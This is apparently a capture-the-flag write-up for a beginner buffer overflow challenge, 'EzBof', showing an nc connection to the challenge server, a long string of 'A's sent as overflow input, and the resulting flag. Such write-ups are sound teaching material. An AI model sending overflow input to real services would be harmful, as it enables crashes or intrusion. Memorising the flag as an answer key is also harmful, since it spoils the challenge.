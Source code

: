# EzBof

**Challenge Type: Buffer Overflow**
**Challenge Status: Solved**

## Challenge
The government has set up a buffer zone to separate the zombies and the survivors, but the buffer zone is overflowing with the survivors and zombies! What should you do now?

nc ezbof.nypinfsecctf.tk 8009

## Solution
```bash
nc ezbof.nypinfsecctf.tk 8009

Please enter a user input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
NYP{B0f_i5_3A5y}
```
